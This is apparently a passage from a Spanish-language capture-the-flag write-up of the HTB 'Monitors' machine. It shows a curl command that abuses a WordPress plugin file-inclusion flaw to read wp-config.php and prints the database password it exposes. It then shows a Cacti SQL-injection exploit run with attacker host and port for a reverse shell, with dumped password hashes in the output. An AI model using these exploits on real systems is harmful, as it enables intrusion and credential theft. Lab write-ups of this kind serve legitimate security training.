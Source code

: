Debemos recordar que al enfrentarnos a un `wordpress`, podemos listar el `wp-config.php` y obtener unas credenciales validas, para ello podemos usar el `exploit spritz` y un wraper encoding de `base64`.

```bash
❯ curl -s -X GET "http://monitors.htb/wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php?url=php://filter/convert.base64-encode/resource=../../../wp-config.php" | base64 -d
<?php
*
 * The base configuration for WordPress
 *
 * The wp-config.php creation script uses this file during the
 * installation. You don't have to use the web site, you can
 * copy this file to "wp-config.php" and fill in the values.
 *
 * This file contains the following configurations:
 *
 * * MySQL settings
 * * Secret keys
 * * Database table prefix
 * * ABSPATH
 *
 * @link https://wordpress.org/support/article/editing-wp-config-php/
 *
 * @package WordPress
 */

// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress' );

/** MySQL database username */
define( 'DB_USER', 'wpadmin' );

/** MySQL database password */
define( 'DB_PASSWORD', 'BestAdministrator@2020!' );
```


Obtemos unas credenciales que justamente son validas para el servicio `cacti`, asi que usaremos el `exploit` con los parametros necesarios y nos pondremos en escucha con `ncat` en el puerto `443`.

```bash
❯ python3 cacti.py -t http://cacti-admin.monitors.htb -u 'admin' -p 'BestAdministrator@2020!' --lhost 10.10.16.3 --lport 443
[+] Connecting to the server...
[+] Retrieving CSRF token...
[+] Got CSRF token: sid:127e441cbfce235feca8a95a0ffa545f8f9f4f02,1684101076
[+] Trying to log in...
[+] Successfully logged in!

[+] SQL Injection:
"name","hex"
"admin","$2y$10$TycpbAes3hYvzsbRxUEbc.dTqT0MdgVipJNBYu8b7rUlmB8zn8JwK"
"guest","43e9a4ab75570f5b"

[+] Check your nc listener!
```
